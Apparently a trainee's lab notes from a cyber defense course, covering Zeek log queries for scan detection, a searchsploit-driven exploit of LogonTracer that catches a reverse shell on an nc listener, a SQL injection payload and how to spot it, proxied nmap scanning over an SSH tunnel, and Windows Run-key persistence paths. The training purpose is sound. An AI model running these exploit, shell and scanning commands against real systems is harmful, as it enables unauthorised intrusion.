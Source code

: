 Run the following query to filter for only Zeek connection logs.

event.dataset:conn

Toggle the following fields:

source.ip 

destination.ip 

destination.port 

connection.state

client.packets

server.packets


![image](https://github.com/user-attachments/assets/5df234ea-0198-4c45-8c6b-01dcd9a5a0fd)



Run the following query to search for scanning behavior:

event.dataset:conn and source.ip:199.63.64.51 and ((client.packets>=1 and client.packets<=3) and server.packets<=1)

![image](https://github.com/user-attachments/assets/931358f3-7636-4ea6-8b85-a4ea435b861e)


Filter for HTTP logs by running the following query:

event.dataset:http

Toggle the following fields:

source.ip

destination.ip

http.status_code

http.uri

http.request.body.length

http.response.body.length


![image](https://github.com/user-attachments/assets/f9b0dd53-f275-42c3-a4b9-28569e052cc6)


run the following query to filter out web connections from different hosts:

event.dataset:http and source.ip:199.63.64.51

notice the stranges uri's

![image](https://github.com/user-attachments/assets/87f37e22-f64f-485c-9d29-dd33a878a1ec)


#### CDAH-M7L2 Finding and Using an Exploit #### 

Run the following command to search for exploits related to OpenSSH:
(trainee@dmss-kali)-[~] $ searchsploit openssh

Run the following command to search for exploits related to Wekzeug HTTPD:
(trainee@dmss-kali)-[~] $ searchsploit wekzeug

 Run the following command to search for exploits related to LogonTracer:
(trainee@dmss-kali)-[~] $ searchsploit logontracer

Run the following command to find the full path of the exploit. -p specifies the full path given an exploit ID and copies it to the clipboard, if possible.
(trainee@dmss-kali)-[~] $ searchsploit -p 49918

Run the following command to read the exploit script:
(trainee@dmss-kali)-[~] $ less -N /usr/share/exploitdb/exploits/multiple/webapps/49918.py

Run the following command to print the exploit script's help menu:
(trainee@dmss-kali)-[~] $ python3 /usr/share/exploitdb/exploits/multiple/webapps/49918.py -h

 Start a listener before running the exploit, as the exploited host needs something to call back to. The port is somewhat arbitrary. In this case, 4444 is used.
(trainee@dmss-kali)-[~] $ nc -nlvp 4444

Open a new tab or window, and run the following command to run the exploit:
(trainee@dmss-kali)-[~] $ python3 /usr/share/exploitdb/exploits/multiple/webapps/49918.py 199.63.64.51 4444 http://200.200.200.10:8080

Run a command to check the functionality of the shell.
(trainee@dmss-kali)-[~] $ /usr/local/src/LogonTracer # whoami

---------------------------------------------------------

![image](https://github.com/user-attachments/assets/a074d8d5-bc35-43dc-9528-4ea5bbd62ca5)


-------------------------------------------------------------------

CDAH-M7L3 Web Application Attacks

 look for union in certain logs

search for UNION+SELECT
![image](https://github.com/user-attachments/assets/0447e933-1ad4-4384-82cc-db9f5592d149)

Operators in SQL use characters to manipulate and find data within the database. A common operator that is utilized in an SQLI attack is UNION. The UNION operator is used in SQL to combine two or more SELECT statements. Additionally, the UNION operator can be used to retrieve data from multiple tables within a database. The UNION operator can help the adversary discover table s, columns,  users, and file paths. 

also search for script and get time stamp

![image](https://github.com/user-attachments/assets/21dac7be-1a4b-43a2-9f11-b812367e8cbc)


![image](https://github.com/user-attachments/assets/fb413ff3-19b2-4871-b637-4b0c5406cb85)

![image](https://github.com/user-attachments/assets/a9d396e2-226a-489b-a198-6993424be159)



![image](https://github.com/user-attachments/assets/fae52e80-3474-40e9-9636-c0e20490ea1e)


![image](https://github.com/user-attachments/assets/0b048432-e84c-4c85-b6eb-dca6fe9b9567)

![image](https://github.com/user-attachments/assets/5a50dbea-4301-4297-904d-88933600caaf)


![image](https://github.com/user-attachments/assets/874b775c-34ba-48f6-8dbe-786c2a6b402f)

![image](https://github.com/user-attachments/assets/3dd4c9a2-a67f-4a2f-a2bd-449ac9389932)

![image](https://github.com/user-attachments/assets/1bad4db4-39e3-4bc2-985a-dd73231d6a97)

![image](https://github.com/user-attachments/assets/a31ad09d-68e1-41bb-8323-57b0e8034fc4)

SQLI 12:39:14 Attack Query
The following query was executed by the adversary:

'UNION ALL SELECT current_user(),user() #
﻿

NOTE: The use of the ', UNION, and # should immediately tip off the analyst. As demonstrated and discussed throughout the lesson, these characters are used to exploit a web application's design and gain access to otherwise protected information.  

![image](https://github.com/user-attachments/assets/6a87e0ae-bcc7-4d95-b563-a95b1279b3df)

Information Obtained
The SQLI attack on the network helped the adversary gain information about the current database user. This information contains portions of the user's credentials. The credential information obtained may lead the adversary to perform other types of attacks in an attempt to break into the user's account. To mitigate this attack, measures to sanitize input in the network application portal must be enacted. 


----------------------------------------------------

########### CDAH-M7L4 Stack Exploitation ############


####### CDAH-M7L6 Credential Stuffing/Password Cracking #######

GPO -> default domain -> settings -> security settings -> account policies/password policy

CDAH-M7L7 Using an Attack Proxy

In order to save time, only the top 25 ports are scanned.

nmap -Pn --top-ports 25 128.0.7.25

![image](https://github.com/user-attachments/assets/5ef6383a-d07b-4aef-ab28-2507fb92c6aa)

Create a dynamic SSH tunnel between the attacker machine and a peer device that has been co-opted for use in this reconnaissance campaign.

ssh -D 0.0.0.0:9050 -N -f trainee@128.0.7.207

![image](https://github.com/user-attachments/assets/adf25577-a15b-49ed-9c27-a56e741a242f)


Execute the same scan again, but this time, direct all traffic through the proxy SOCKS4 created by the SSH tunnel.

proxychains nmap -Pn --top-ports 25 128.0.7.25


![image](https://github.com/user-attachments/assets/1800679c-659d-47ed-a69a-4c6729938d64)


CDAH-M8L4-Persisting in Windows Artifacts


HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce























